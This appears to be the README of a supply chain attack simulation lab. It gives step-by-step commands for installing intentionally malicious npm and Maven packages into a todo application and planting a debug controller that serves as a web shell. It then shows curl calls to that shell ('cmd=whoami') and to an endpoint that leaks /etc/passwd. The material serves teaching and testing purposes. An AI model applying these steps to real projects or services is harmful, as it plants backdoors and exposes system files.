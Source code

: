 # Supply Chain Attack Simulation

This directory contains intentionally malicious packages used to demonstrate how a
project could be infected with dependencies that appear legitimate.

## evil-package (Node.js)

1. Build the package:
   ```bash
   cd evil-package
   npm pack
   ```
   This produces a `.tgz` archive under `evil-package/`.

2. Infect the client application:
   ```bash
   cd ../../todo-client
   npm install ../malicious/evil-package/evil-package-1.0.0.tgz
   ```
   The `package.json` does not include this dependency by default; installing the
   archive adds it to `package-lock.json` for a more realistic compromise.

## evil-lib (Maven)

1. Build and install the library to the local Maven repository:
   ```bash
   cd evil-lib
   mvn install -DskipTests
   ```

2. Add the dependency to the backend:
   ```bash
   cd ../../todo-api
   mvn install:install-file \
       -DgroupId=com.malicious \
       -DartifactId=evil-lib \
       -Dversion=1.0.0 \
       -Dpackaging=jar \
       -Dfile=../malicious/evil-lib/target/evil-lib-1.0.0.jar
   # Then update pom.xml to reference com.malicious:evil-lib:1.0.0
   ```
  The manual step mimics an attacker injecting the dependency after the build
  has started.

## Malicious Debug Controller

1. Copy the malicious controller into the API:
   ```bash
   cd malicious
   cp debug-controller/src/main/java/com/example/demo/DebugController.java \
      ../todo-api/src/main/java/com/example/demo/DebugController.java
   cd ..
   ```

2. Rebuild the application so the new endpoints are active:
   ```bash
   cd ../todo-api
   ./mvnw package -DskipTests
   ```

3. Use the remote shell:
   ```bash
   curl "http://<todo-api-service>/debug-shell?cmd=whoami"
   ```

4. Leak `/etc/passwd` contents:
   ```bash
   curl "http://<todo-api-service>/leak"
   ```
